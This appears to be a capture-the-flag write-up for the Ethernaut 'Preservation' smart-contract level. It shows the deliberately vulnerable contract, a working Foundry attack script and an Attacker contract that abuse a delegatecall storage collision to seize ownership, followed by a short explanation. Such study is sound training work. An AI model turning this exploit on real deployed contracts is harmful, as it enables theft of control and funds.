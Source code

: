 ```yaml
---
title: "Preservation"
date: "2024-02-24"
lastmod: "2024-02-24T12:09:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
weight: 17
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/16"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "15486d55-3b70-48eb-a93b-e9c33dcdd447"
  created_time: "2024-02-24T11:18:00.000Z"
  last_edited_time: "2024-02-24T12:09:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel16.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-24"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 17
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/16"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Preservation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Preservation"
          href: null
  url: "https://www.notion.so/Preservation-15486d553b7048eba93be9c33dcdd447"
  public_url: null
UPDATE_TIME: "2024-02-24T12:12:20.856Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This contract utilizes a library to store two different times for two different
timezones. The constructor creates two instances of the library for each time
to be stored.


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function,
how it works, how it can be used to delegate operations to on-chain.
libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,Preservation} from "../src/16.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_16");
        address pubKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);

        Attacker attacker = new Attacker();

        attacker.attack(addr, pubKey);
        console.logAddress(Preservation(addr).owner());

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Preservation {
  function timeZone1Library() external returns(address);
  function setFirstTime(uint _timeStamp) external;
  function owner() external returns(address);
}

contract Attacker {
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  function attack(address _preservation, address newOwner) public {
      Preservation preservation = Preservation(_preservation);
      preservation.setFirstTime(uint160(address(this)));
      preservation.setFirstTime(uint160(address(newOwner)));
  }

  function setTime(uint _time) public {
    owner = address(uint160(_time));
  }
}

```


As the previous level, `delegate` mentions, the use of `delegatecall` to call
libraries can be risky. This is particularly true for contract libraries that
have their own state. This example demonstrates why the `library` keyword
should be used for building libraries, as it prevents the libraries from
storing and accessing state variables.

